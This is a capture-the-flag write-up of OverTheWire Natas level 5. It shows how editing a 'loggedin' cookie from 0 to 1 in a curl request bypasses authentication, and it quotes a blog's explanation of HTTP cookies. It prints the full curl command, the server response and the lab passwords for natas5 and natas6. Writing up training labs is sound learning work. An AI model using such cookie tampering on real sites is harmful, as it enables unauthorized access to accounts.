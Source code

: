 ## 5->6
- http://natas5.natas.labs.overthewire.org/
- `natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned`
- That `loggedin=0` in the Cookie field looked strange. Copied the command as `cURL` and ran instead with `loggedin=1` and got access.
- But why did that work?

> https://mayadevbe.me/posts/overthewire/natas/natas5/
> In this level, we will talk about cookies, not those you can eat, but HTTP-Cookies. HTTP is the protocol I mentioned in the previous level. It is stateless, meaning no information about the session/previous requests is saved on the receivers/servers side. The client/browser saves session states and sends them with new requests. With HTTP the session information is stored in cookies, allowing the otherwise stateless protocol to store and transfer stateful information.
> 
> Cookies are sent with the HTTP headers. There are different types of cookies, for example, authentication cookies (for login) or tracking cookies. Since they are stored on the client side, the client can manipulate them depending on their content. It could be plain text, encoded, hashed or a special value only the server knows how to process. The different types are easier or harder to manipulate by the client.

<img width="1511" alt="Screenshot 2025-05-30 at 7 21 30 PM" src="https://github.com/user-attachments/assets/59c5444c-2e01-4394-8773-0a4176fa3658" />

```bash
curl 'http://natas5.natas.labs.overthewire.org/' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-US,en;q=0.9,es;q=0.8' \
  -H 'Authorization: Basic bmF0YXM1OjBuMzVQa2dnQVBtMnpiRXBPVTgwMmMweDBNc24xVG9L' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -b '_ga=GA1.1.1067986793.1744421061; _ga_RD0K2239G0=GS2.1.s1748407711$o32$g1$t1748407894$j49$l0$h0; loggedin=1' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36' \
> 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas5", "pass": "0n35PkggAPm2zbEpOU802c0x0Msn1ToK" };</script></head>
<body>
<h1>natas5</h1>
<div id="content">
Access granted. The password for natas6 is 0RoJwHdSKWFTYR5WuiAewauSuNaBXned</div>
</body>
</html>
```
